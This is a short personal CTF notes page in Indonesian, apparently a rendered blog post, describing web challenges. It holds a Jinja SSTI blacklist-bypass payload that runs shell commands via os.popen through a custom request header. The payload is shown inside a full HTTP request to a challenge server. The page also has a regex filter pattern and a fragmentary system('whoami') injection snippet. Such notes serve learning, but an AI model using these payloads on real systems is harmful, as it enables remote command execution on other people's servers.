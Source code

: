 ```yaml
---
title: "My CTF - Notes"
description: ""
pubDate: 2025-07-25 10:00
slug: "ctf-notes"
---
```


Ini adalah catetan saya yang dibuat secara personal berdasarkan pengalaman saya yang telah mengerjakan ctf selama ini

# Web

## SSTI

ada chall ini, diberikan program berikut:

```py
def security_filter(user_input):
 blacklist = ["%", "\\", "/", "\"", "'", "`", "|", " ", "[", "]", "+","init", "subprocess", "globlas", "config", "update", "mro", "subclasses",
"class", "base", "builtins", "cycler", "joiner", "namespace", "lipsum"]

 for word in blacklist:
    if word in user_input:
        return False
 return True
 ```

 payload untuk bypass : `{{url_for.__globals__.os.popen(request.headers.tel).read()}}`

 req header:
```
POST /search HTTP/1.1
Host: 103.160.212.3:1339
Content-Length: 70
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://103.160.212.3:1339
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Tel: cat /flag.txt   -> ini variabel baru
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/a
png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://103.160.212.3:1339/

Accept-Encoding: gzip, deflate, br
Connection: keep-alive

query={{url_for.__globals__.os.popen(request.headers.tel).read()}}
```

---

The regex expression is `/^[0–9a-z ]+$/i`

- Only numbers and lowercase
- Key insensitive

![alt text](image.png)

![alt text](image-1.png)

---

The Regex filter bypass is:

`/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/`


```



{system('whoami')

}


```